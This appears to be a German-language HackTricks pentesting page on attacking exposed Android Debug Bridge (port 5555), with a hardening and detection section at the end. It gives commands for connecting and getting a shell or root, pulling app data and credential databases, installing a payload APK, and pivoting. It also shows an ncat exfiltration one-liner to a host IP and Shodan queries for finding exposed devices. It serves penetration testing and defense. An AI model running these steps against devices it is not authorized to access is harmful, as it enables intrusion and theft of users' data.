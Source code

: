 # 5555 - Android Debug Bridge

{{#include ../banners/hacktricks-training.md}}

## Grundlegende Informationen

Von [den Dokumenten](https://developer.android.com/studio/command-line/adb):

Android Debug Bridge (adb) ist ein Befehlszeilenwerkzeug zur Kommunikation mit Android-basierten Geräten und Emulatoren. Typische Aktionen umfassen das Installieren von Paketen, Debugging und das Erhalten einer interaktiven Unix-Shell auf dem Gerät.

- Historischer Standard-TCP-Port: 5555 (klassischer "adb tcpip"-Modus).
- Modernes kabelloses Debugging (Android 11+) verwendet TLS-Paarung und mDNS-Dienstentdeckung. Der Verbindungsport ist dynamisch und wird über mDNS entdeckt; er muss nicht 5555 sein. Die Paarung erfolgt mit adb pair host:port gefolgt von adb connect. Siehe die untenstehenden Hinweise zu offensiven Implikationen.

Beispiel nmap-Fingerabdruck:
```
PORT     STATE SERVICE VERSION
5555/tcp open  adb     Android Debug Bridge device (name: msm8909; model: N3; device: msm8909)
```
## Verbinden

Wenn Sie ADB exponiert und erreichbar finden, versuchen Sie schnell zu verbinden und zu enumerieren:
```bash
adb connect <ip>[:<port>]      # Default is 5555 for classic mode
adb devices -l                 # Confirm it shows as "device" (not unauthorized/offline)
adb shell                      # Get an interactive shell (uid usually shell)
whoami; id; getprop ro.debuggable ro.secure service.adb.tcp.port
adb root || true               # Works on eng/userdebug/insecure builds, many emulators/IoT
```
- Wenn das Gerät die ADB-Authentifizierung durchsetzt (ro.adb.secure=1), müssen Sie vorab autorisiert sein (USB RSA-Authentifizierung) oder die drahtlose Debugging-Paarung von Android 11+ verwenden (die einen einmaligen Code erfordert, der auf dem Gerät angezeigt wird).
- Einige Herstellerbilder, Engineering-/Userdebug-Bauten, Emulatoren, Fernseher, STBs und Entwicklungskits setzen adbd ohne Authentifizierung oder mit adbd, das als Root ausgeführt wird, frei. In diesen Fällen landen Sie normalerweise direkt in einer Shell oder Root-Shell.

Für eine allgemeine ADB-Befehlsreferenz siehe:

{{#ref}}
../mobile-pentesting/android-app-pentesting/adb-commands.md
{{#endref}}

## Schnelle Nachnutzung

Sobald Sie eine Shell haben, überprüfen Sie die Berechtigungen und den SELinux-Kontext:
```bash
id; getenforce; getprop ro.build.type ro.product.model ro.build.fingerprint
```
### Auflisten und Erfassen von Daten

- Liste von Drittanbieter-Apps und Pfaden:
```bash
pm list packages -3
pm path <pkg>
```
- Wenn du Root hast (adb root oder su funktioniert), kannst du direkt auf /data zugreifen. Andernfalls bevorzuge run-as für debuggable Apps:
```bash
# Ohne Root, für eine debuggable App
run-as <pkg> sh -c 'cd /data/data/<pkg> && tar cf - .' | tar xf - -C ./loot/<pkg>

# Mit Root
cp -a /data/data/<pkg> /sdcard/<pkg>
exit
adb pull "/sdcard/<pkg>"
```
- Nützliche Systemartefakte (Root erforderlich):
- /data/system/users/0/accounts.db und verwandte AccountManager-Daten
- /data/misc/wifi/ (Netzwerkkonfigurationen/Schlüssel in älteren Versionen)
- App-spezifische SQLite-Datenbanken und shared_prefs unter /data/data/<pkg>

Du kannst dies verwenden, um sensible Informationen abzurufen (z. B. App-Geheimnisse). Für Hinweise zu Chrome-Datenüberlegungen siehe das Problem, das [hier](https://github.com/carlospolop/hacktricks/issues/274) erwähnt wird.

### Codeausführung und Payload-Zustellung

- Installiere und gewähre automatisch Laufzeitberechtigungen:
```bash
adb install -r -g payload.apk         # -g gewährt alle im Manifest deklarierten Laufzeitberechtigungen
adb shell monkey -p <pkg> -c android.intent.category.LAUNCHER 1
```
- Starte Aktivitäten/Dienste/Broadcasts direkt:
```bash
adb shell am start -n <pkg>/<activity>
adb shell am startservice -n <pkg>/<service>
adb shell am broadcast -a <action>
```

### Portweiterleitung und Pivotierung

Selbst ohne Root kann adb lokale Ports auf Geräteports und umgekehrt weiterleiten. Dies ist nützlich, um auf lokal auf dem Gerät gebundene Dienste zuzugreifen oder Angreiferdienste dem Gerät zur Verfügung zu stellen.

- Weiterleitung Host->Gerät (Zugriff auf einen geräte-lokalen Dienst von deinem Host):
```bash
adb forward tcp:2222 tcp:22       # Wenn das Gerät SSH ausführt (z. B. Termux/Dropbear)
adb forward tcp:8081 tcp:8080     # Exponiere den lokalen Debug-Server der App
```
- Umgekehrte Weiterleitung Gerät->Host (lass das Gerät einen Dienst auf deinem Host erreichen):
```bash
adb reverse tcp:1080 tcp:1080     # Geräte-Apps können jetzt host:1080 als 127.0.0.1:1080 erreichen
```
- Datei-Exfiltration über Sockets (keine sdcard-Schreibvorgänge):
```bash
# Auf dem Host: hören
ncat -lvp 9000 > dump.tar
# Auf dem Gerät: Verzeichnis als tar senden (Root oder run-as wie zutreffend)
adb shell "tar cf - /data/data/<pkg>" | ncat <HOST_IP> 9000
```

## Drahtloses Debugging (Android 11+)

Modernes Android implementiert TLS-geschütztes drahtloses Debugging mit geräteseitiger Kopplung und mDNS-Entdeckung:
```bash
# On the device: Developer options -> Wireless debugging -> Pair device with pairing code
# On attacker host (same L2 network, mDNS allowed):
adb pair <device_ip>:<pair_port>   # Enter the 6-digit code shown on device
adb mdns services                  # Discover _adb-tls-connect._tcp / _adb._tcp services
adb connect <device_ip>:<conn_port>
```
Notizen
- Ports sind dynamisch; gehen Sie nicht von 5555 aus. mDNS-Dienstenamen sehen aus wie:
- _adb-tls-pairing._tcp (Pairing)
- _adb-tls-connect._tcp (gepaart verbinden)
- _adb._tcp (legacy/plain)
- Wenn mDNS gefiltert ist, kann das klassische USB-unterstützte Aktivieren möglicherweise bei einigen Builds noch funktionieren: `adb tcpip 5555` dann `adb connect <ip>:5555` (bis zum Neustart).

Offensive Implikationen: Wenn Sie mit der Benutzeroberfläche des Geräts interagieren können (z. B. physischer Zugriff oder falsche Konfiguration von mobilem MDM), um das kabellose Debugging zu aktivieren und den Pairing-Code anzuzeigen, können Sie einen langlebigen, gepaarten ADB-Kanal ohne Kabel einrichten. Einige OEMs bieten ADB über TCP in Engineering-/Entwicklungsbildern ohne Pairing an – immer überprüfen.

## Härtung / Erkennung

Verteidiger sollten davon ausgehen, dass jeder erreichbare adbd (TCP) ein kritisches Risiko darstellt.

- Deaktivieren Sie ADB und kabelloses Debugging, wenn nicht benötigt. Widerrufen Sie USB-Debugging-Berechtigungen in den Entwickleroptionen.
- Stellen Sie sicher, dass die Netzwerkpolitik eingehendes TCP/5555 und mDNS-basiertes ADB-Discovery in nicht vertrauenswürdigen Segmenten blockiert.
- Auf Geräten unter Ihrer Kontrolle:
```bash
settings put global adb_enabled 0
setprop service.adb.tcp.port -1   # TCP-Listening deaktivieren (oder verwenden: adb usb)
stop adbd; start adbd             # Daemon neu starten
```
- Überwachen Sie mDNS-Einträge `_adb._tcp`, `_adb-tls-connect._tcp`, `_adb-tls-pairing._tcp` in Unternehmensnetzwerken und alarmieren Sie bei unerwarteten 5555-Listenern.
- Inventarisieren Sie unsichere Builds: `getprop ro.debuggable`, `ro.build.type` und `ro.adb.secure`.

## Shodan

- android debug bridge
- port:5555 product:"Android Debug Bridge"

## Referenzen

- Android Developers – Android Debug Bridge (adb): https://developer.android.com/studio/command-line/adb
- AOSP – ADB über Wi‑Fi, Pairing und mDNS-Dienstenamen: https://android.googlesource.com/platform/packages/modules/adb/+/refs/tags/android-vts-15.0_r2/docs/dev/adb_wifi.md
{{#include ../banners/hacktricks-training.md}}
